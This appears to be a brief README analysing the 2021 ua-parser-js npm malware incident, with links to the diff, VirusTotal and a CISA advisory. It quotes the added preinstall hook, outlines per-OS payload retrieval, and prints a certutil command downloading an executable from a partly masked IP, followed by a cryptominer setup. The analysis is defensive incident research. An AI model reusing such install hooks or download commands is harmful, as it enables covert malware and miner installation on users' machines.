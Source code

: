 # ua-parser-vuln

## Data Sources:

Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945

Virustotal: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/behavior/C2AE

CISA Announcement: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js

Therecord: https://therecord.media/malware-found-in-npm-package-with-millions-of-weekly-downloads/

## Brief overview
Package.json file has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added,  calls the new attack scripts.

File preinstall.js looks to determine Windows, mac, linux, and call the correct next file

### Linux
On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing. 
Else, it pulls down  jsextention from a remote IP in the Latvia GEO

### Windows:
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****

